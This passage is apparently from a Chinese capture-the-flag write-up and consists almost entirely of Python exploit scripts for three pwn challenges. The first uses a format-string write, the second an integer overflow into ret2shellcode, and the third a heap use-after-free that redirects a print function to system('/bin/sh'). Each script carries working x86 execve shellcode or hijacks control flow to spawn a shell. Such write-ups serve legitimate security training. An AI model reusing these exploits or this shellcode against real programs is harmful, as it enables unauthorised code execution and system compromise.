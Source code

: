 ```python
shellcode = '\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80'

sla('Exit\n','1')
buf = int(r(8),16)
sc = buf+0x28
ret = buf-0x24

payload = p32(ret)+'%'+str((sc&0xffff)-4)+'d%16$hnaaa'
payload += p32(ret+2)+'%'+str(((sc>>16)&0xffff)-(sc&0xffff)-7)+'d%21$hnaaa'
payload += shellcode

s(payload)
sla('Exit\n','2')
```

### another_repeater

题目在输入长度时可以整数溢出，还给了 `buf` 的地址。那么直接输入 `-1`，然后 ret2shellcode 即可。

```python
shellcode = '\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80'

sla('peat?\n','-1')
addr = int(r(8),16)

payload = shellcode.ljust(0x41b+4,'a')+p32(addr)
sa('\n',payload)
```

### babyheap

uaf 覆盖打印函数为 `system`，内容为 `/bin/sh`。

```python
def add(size,content='a'):
	sla(':','1')
	sla('size: \n',str(size))
	sa('content: \n',content)

def free(index):
	sla(':','2')
	sla('index: \n',str(index))

def show(index):
	sla(':','3')
	sla('index: \n',str(index))

add(0x20) # 0
add(0x20) # 1
free(0)
free(1)

binsh = 0x602010
add(0x10,flat(binsh,elf.plt['system'])) # 2
show(0)
```
